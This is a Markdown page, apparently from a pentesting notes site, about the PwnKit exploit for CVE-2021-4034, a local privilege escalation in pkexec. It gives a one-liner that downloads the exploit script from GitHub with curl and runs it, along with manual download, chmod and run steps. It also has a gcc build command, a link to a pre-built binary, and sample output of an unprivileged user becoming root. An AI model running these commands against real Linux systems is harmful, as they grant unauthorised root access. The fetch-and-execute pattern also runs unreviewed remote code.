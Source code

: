 ```yaml
---
title : "CVE-2021-4034"
# pre : ' '
description : "Pkexec Local Privilege Escalation."
date : 2022-03-03T11:13:34+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2021-4034 - Pkexec Local Privilege Escalation

Self-contained exploit for CVE-2021-4034 - Pkexec Local Privilege Escalation

## Usage

Should work out of the box on vulnerable Linux distributions based on Ubuntu, Debian, Fedora, and CentOS.

```plain
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```

![example](images/oneliner.png)

### Manually

```plain
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
chmod +x ./PwnKit
./PwnKit # interactive shell
./PwnKit 'id' # single command
```

![example](images/exploit.png)

### Patched

Running the exploit against patched versions will yield the following output.

![example](images/patched.png)

### Building Pwnkit

```plain
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
```

Pre-built below:

{{%attachments fa_icon_class="far fa-file-pdf" pattern="PwnKit"%}}

## Examples

```plain
unpriv_user@host:~$ id
uid=1338(unpriv_user) gid=1338(unpriv_user) groups=1338(unpriv_user)
unpriv_user@host:~$ ./PwnKit 
root@host:~# id
uid=0(root) gid=0(root) groups=0(root),1338(unpriv_user)
```

## URL List

- [Github.com - Pwnkit](https://github.com/ly4k/PwnKit)
- [Github.com - CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034/)
- [Blog.qualys.com - PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034)](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)

